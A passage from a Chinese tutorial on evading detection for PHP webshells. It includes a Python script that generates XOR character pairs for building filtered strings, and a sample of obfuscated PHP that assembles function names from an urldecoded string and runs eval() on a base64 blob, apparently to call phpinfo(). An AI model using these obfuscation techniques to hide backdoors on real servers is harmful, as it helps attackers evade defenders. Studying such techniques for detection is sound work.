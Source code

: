 这里的话，可以参考国光大佬的 Python 脚本生成异或结果，然后来替换即可：`python3 xxx.py > results.txt`

```plain
import string
from urllib.parse import quote

keys = list(range(65)) + list(range(91,97)) + list(range(123,127))
results = []


for i in keys:
    for j in keys:
        asscii_number = i^j
        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122):
            if i < 32 and j < 32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} =  {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i < 32 and j >=32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i >= 32 and j < 32:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            else:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)

results.sort(key=lambda x:x[1], reverse=False)

for low_case in string.ascii_lowercase:
    for result in results:
        if low_case in result:
            print(result[0])

for upper_case in string.ascii_uppercase:
    for result in results:
        if upper_case in result:
            print(result[0])
```

### 8.2 嵌套运算

其实嵌套运算在 WebShell 免杀中算是常客了，让我们来看一下一个 `phpinfo()` 的嵌套运算

```plain
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};

eval($O00O0O("JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="));
```
